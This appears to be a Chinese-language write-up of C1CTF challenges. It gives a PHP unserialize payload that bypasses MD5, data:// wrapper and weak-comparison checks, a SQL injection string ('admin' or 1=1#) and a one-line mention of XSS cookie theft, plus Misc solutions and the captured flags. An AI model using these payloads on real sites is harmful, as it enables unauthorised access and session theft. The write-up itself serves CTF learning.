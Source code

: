 # C1CTF Writeup

首先是Web部分

## Paradox

用到的知识点都不难，分别是MD5数组绕过、php伪协议和弱类型比较。就当巩固基础了，但发现了一个做题的小技巧，在这里总结一下。

做这种审计题，最好的办法就是本地搭建环境模拟。这样既可以进行一些php的序列化操作，又可以看到输入的变量，比较清晰。演示一下：  

首先部署docker环境，命令如下：

```bash
docker run --name lampTest -p 8088:80 --volume `pwd`/public_html:/var/www/example.com/public_html/ -i -t linode/lamp /bin/bash
```

这是把所在目录下的`publim_html`目录绑定到docker容器中对应的目录，就可以在外部修改网页了。之后按照题目要求，添加`index.php`和`flag.php`。

```php
<?php
//index.php
include 'flag.php';

Class Paradox {
    public $flag;
    public $filename;
    public $noncea;
    public $nonceb;

    function paradox_one() {
        if ($this->noncea != $this->nonceb && md5($this->noncea) == md5($this->nonceb)) {
            return true;
        } else {
            echo "Failed in paradox_one";
            return false;
        }
    }
    function paradox_two() {
        if (file_get_contents($this->filename) == 'welcome_to_c1ctf') {
            return true;
        } else {
            echo "Failed in paradox_two";
            return false;
        }
    }
    function paradox_three() {
        var_dump(0 == "C1CTF{}");//True
        global $flag;
        if ($this->flag == $flag) {
            return true;
        } else {
            echo "Failed in paradox_three";
            return false;
        }
    }

    function __destruct() {
        global $flag;
        if ($this->paradox_one() && $this->paradox_two() && $this->paradox_three()) {
            echo "You solved all paradox! Here is your flag<br>";
            echo $flag;
        }
    }
}

/*
  这些是测试用的
*/
$sample_ans = new Paradox();
$sample_ans->noncea = array();
$sample_ans->nonceb = array("1"=>"2");
$sample_ans->filename = "data:text/plain,welcome_to_c1ctf";
$sample_ans->flag = 0;
$s = serialize($sample_ans);
echo $s;

if (isset($_REQUEST['answer'])) {
    unserialize($_REQUEST['answer']);
} else {
    highlight_file(__FILE__);}
?>
```

```php
<?php
echo "flag.php included.";
global $flag;
$flag = "C1CTF{This_Is_a_Sample_Flag}";
?>
```

如index.php最后几行中，进行了对象满足条件与否的测试，对象`$sample_ans`已经满足题目要求了。  

![](https://upload-images.jianshu.io/upload_images/19782504-599c056e0b57ccf4.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

接下来序列化即可，然后传入answer参数中。

![](https://upload-images.jianshu.io/upload_images/19782504-be244bb145d1da95.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

最后的payload为`?answer=O:7:"Paradox":4:{s:4:"flag";i:0;s:8:"filename";s:32:"data:text/plain,welcome_to_c1ctf";s:6:"noncea";a:0:{}s:6:"nonceb";a:1:{i:1;s:1:"2";}}`。

在真实网站提交即可。  

`C1CTF{d0_th3_imp0ssibl3_see_7he_1nv1s1bl3}`

## login

![](https://upload-images.jianshu.io/upload_images/19782504-a3ed52c720ba7204.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

然而这种事情是真实发生的，我还能说什么呢？  

`C1CTF{1ns3cure_htm1_n0sql}`

## LoginV2

一个admin' or 1=1#就过了，我还能说什么呢？  

`C1CTF{eZ_my3ql_inj3ct_with_'0r_1=1#}`

## Pastebin

简单XSS，接收cookie即可

---

然后是Misc部分

## ez_github

给了一个git仓库，只有一个flag.txt，发现了很多分支和commit，自然要查看一下历史版本中有没有什么信息了。查看了几个发现格式很一致，都是`字符----数字`的格式。使用命令`git rev-list --all | xargs git grep "-" > out.txt`将历史版本中，含有-的输出到out.txt中，文件大概这样：

```
c769ffec48a03185a32c3af1b4f4c06476d4f787:flag.txt:5----127
14bc3c9cff8c980294b9189d18c63397b4239581:flag.txt:A----126
be5225cc40b0e1de8b943a030645ed2e493a864f:flag.txt:D----125

...

cad350b221f4698b9629c1f2a95a07567070efce:flag.txt:o----3
1cdaadd164b9e00d78767882317728624a05ce63:flag.txt:Z----2
53e40b7d21168c372111a4dcb3fae9e76f125d77:flag.txt:l----1
479b628a952a6938e5a234bfa4d7863db42c2ccf:flag.txt:V----0
```

自然想到按照字母排序，脚本如下  

```python
#solve.py
data = ""
with open("out.txt") as f:
    for line in f:
        data += line.split(":")[-1]

ndata = ""
for line in data.split("\n"):
    if len(line) > 0:
        ndata+=line[0]

print(ndata[::-1])
```

```bash
$ python3 solve.py 
VlZod1IxSkdXa1pYYW1SUVZqQnNOVlJzVWtOaVZUUjVWMWhrVDFKR1duTlVXSEJhWlVVeFNGTlVTazVpVm10M1ZHNXdWMkpHY0ZWV1ZFcFBaV3N3ZDFkWE1VZFBVVDA5
```

看起来像是base64的亚子，四次b64decode得到flag。

```python
>>> a=VlZod1IxSkdXa1pYYW1SUVZqQnNOVlJzVWtOaVZUUjVWMWhrVDFKR1duTlVXSEJhWlVVeFNGTlVTazVpVm10M1ZHNXdWMkpHY0ZWV1ZFcFBaV3N3ZDFkWE1VZFBVVDA5
>>> base64.b64decode( base64.b64decode( base64.b64decode( base64.b64decode(a))))
b'C1CTF{9b250f7f045e3610b62f475ee56734ba}'
```

## BabyBase64

盲猜Base64密码表的替换。编写脚本：

```python
import base64
import string

str1 = "Lt2ZR0M4AZBtMELuKt2tKwMvPdzzVA== "#解密

string1 = "C1sec20I9/iS+FUNABDEGHJKLMOPQRTVWXYZabdfghjklmnopqrtuvwxyz345678"#替换
string2 = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/"

print (base64.b64decode(str1.translate(str.maketrans(string1,string2))).decode())
```

`c1ctf{B4se64_1s_funny}`

## 2048

是一个pyinstaller生成的小游戏。用网上的 pyinstaller extractor进行提取。然后寻找flag...

```bash
raidriarb@Rmbp C1CTF_2048.exe_extracted % grep C1CTF *
grep: PYZ-00.pyz_extracted: Is a directory
Binary file puzzle matches
```

打开这个puzzle文件，这里只显示了一部分。出现了lost时的字符串`You Lost!`。看了是这个没错了，把这些奇怪的字符去掉试一试：

```
jdd    jdtjdçdS)Nr*zback on step total step:F⁄winrZC1CTF)r rz{2048rZ_1s_Èzfun}ZloseZYouzLost!)⁄repr⁄charrZKEY_BACK⁄lenr1⁄popr/r⁄printrr
r2r%Z
```

`C1CTF{2048_1s_fun}`  

而且看起来玩到2048是真的可以给你flag的。。
